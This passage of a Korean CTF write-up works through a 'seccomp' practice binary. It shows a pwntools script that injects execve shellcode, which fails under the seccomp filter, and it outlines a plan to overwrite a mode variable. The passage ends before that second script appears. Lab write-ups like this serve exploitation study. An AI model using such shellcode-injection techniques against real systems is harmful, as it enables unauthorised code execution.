 **코드 분석**

일단 No Pie에 Partial RELRO 니까 got overwrite 가 먼저 떠오른다.   
그 외에도 3번 옵션에서 특정 변수를 그냥 덮어버릴 수 있는게  보인다.  

그래도 쉘코드를 받는 함수이니 쉘 실행 쉘코드를 넣어보자.  

<br>

**익스플로잇 코드 찾기 과정**

바로 익스플로잇 코드를 짜봤다.  

<br>

**익스플로잇 코드 (실패)**

```python
from pwn import *

context.arch = 'amd64'
# p = remote()
p = process('./seccomp')
e = ELF('./seccomp')

p.sendlineafter('> ', b'1')
p.recvuntil(b'shellcode: ')

payload = asm(shellcraft.sh())
p.send(payload)

p.sendlineafter('> ', b'2')
p.interactive()
```

이걸 실행했더니,

<img width="1431" height="575" alt="image" src="https://github.com/user-attachments/assets/bb040250-9968-4db7-b4fd-6561dfab26fd" />  

<br>

실패했다.  
 
seccomp에서 execve 를 차단하는가보다.   
seccomp-tools 를 사용하질 못해서 어떤 걸 차단하는지 못봤지만 대부분 시스템 콜이 막히는 것 같다.   

그러니 3번 선택지에서 특정 변수를 덮어버리는 방법을 써볼까한다.   
mode를 덮어버리면 seccomp이 실행 안되지 않을까  

바로 실행해보자   


<img width="1060" height="289" alt="image" src="https://github.com/user-attachments/assets/790f613c-94ae-46be-aa97-7016a90de95d" />

어차피 심볼로 쓸거지만 모드 위치도 슬쩍 봐주고  

코드를 작성했다.   

<br>
